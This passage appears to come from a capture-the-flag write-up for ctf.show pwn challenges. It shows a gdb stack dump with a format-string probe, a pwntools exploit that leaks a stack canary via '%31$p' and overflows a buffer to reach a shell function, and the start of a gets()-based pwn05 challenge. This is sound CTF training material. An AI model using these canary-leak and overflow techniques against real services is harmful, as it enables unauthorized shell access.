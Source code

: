 ```shell
   0x8048689 <vuln+91>:	leave  
   0x804868a <vuln+92>:	ret
[------------------------------------stack-------------------------------------]
0000| 0xffffcf90 --> 0xf7fb6000 --> 0x1b2db0 
0004| 0xffffcf94 --> 0x2 
0008| 0xffffcf98 ("AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p\n.\346\367`m\373\367\n")
0012| 0xffffcf9c ("%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p\n.\346\367`m\373\367\n")
0016| 0xffffcfa0 ("%p%p%p%p%p%p%p%p%p%p%p%p%p%p\n.\346\367`m\373\367\n")
0020| 0xffffcfa4 ("%p%p%p%p%p%p%p%p%p%p%p%p\n.\346\367`m\373\367\n")
0024| 0xffffcfa8 ("%p%p%p%p%p%p%p%p%p%p\n.\346\367`m\373\367\n")
0028| 0xffffcfac ("%p%p%p%p%p%p%p%p\n.\346\367`m\373\367\n")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x0804867b in vuln ()
```



**exploit**

```python
from pwn import *

r = remote("pwn.challenge.ctf.show",28112)
elf = ELF("./pwn4")
context.log_level = 'debug'
context(arch="i386",os="linux")

r.recvuntil("Hello Hacker!\n")
r.sendline("%31$p")
canary = int(r.recv(),16)
getshell = elf.symbols["getshell"]
r.sendline("A"*100+p32(canary)+'B'*12+p32(getshell))
r.interactive()
```





## pwn05



    Arch:     i386-32-little
    NX:       NX enabled


**Functions**

+ welcome()  
  + gets()   the size of variable string s is 0x14
+ getFlag(): Backdoor function



```c
int welcome()
{
  char s; // [esp+4h] [ebp-14h]

  gets(&s);
  return puts(&s);
}
```
